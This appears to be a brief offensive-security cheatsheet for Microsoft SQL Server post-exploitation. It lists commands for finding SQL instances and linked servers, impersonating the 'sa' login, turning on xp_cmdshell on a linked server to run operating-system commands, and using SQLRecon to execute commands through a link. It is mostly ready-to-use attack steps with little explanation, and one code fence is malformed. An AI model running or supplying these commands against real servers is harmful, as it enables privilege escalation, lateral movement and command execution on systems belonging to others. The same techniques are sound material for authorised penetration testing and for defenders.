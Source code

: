 # MSSQL Cheatsheet

PE can use `PowerUpSQL.ps1` in post exp.

## list sqlserver

```powershell
PS C:\mane> sqlcmd -L

Servers:
    ;UID:Login ID=?;PWD:Password=?;Trusted_Connection:Use Integrated Security=?;*APP:AppName=?;*WSID:WorkStation ID=?;


# OR
PS C:\mane> Get-SqlInstance
```

## Query

```powershell
PS C:\mane> sqlcmd -q "SELECT @@version"
``

```sql
# List Databases
"SELECT name FROM master..sysdatabases;"

```

## Check server link

```
EXEC sp_linkedservers;

select * from openquery("WEB\CLIENTS", 'SELECT name FROM master..sysdatabases;')
```


## Connect Server link

```
EXECUTE AS LOGIN  = 'sa';

EXECUTE ('SELECT @@servername;') at [SQLSERVER2] ;
```


## Enable xpshell to linking server

```
EXECUTE AS LOGIN  = 'sa';
EXECUTE ('EXEC sp_configure ''Show Advanced Options'', 1') at [SQLSERVER2] ;
EXECUTE ('RECONFIGURE') at [SQLSERVER2] ;
EXECUTE ('EXEC sp_configure ''xp_cmdshell'', 1') at [SQLSERVER2];
EXECUTE ('RECONFIGURE') at [SQLSERVER2] ;
EXECUTE ('EXEC master..xp_cmdshell ''whoami''') at [SQLSERVER2] ;
```

## Using SQLRecon Tools with link

```
.\SQLRecon.exe /a:WinToken /h:127.0.0.1 /l:xxx.xxx.local /m:lXpCmd /c:'command'
```
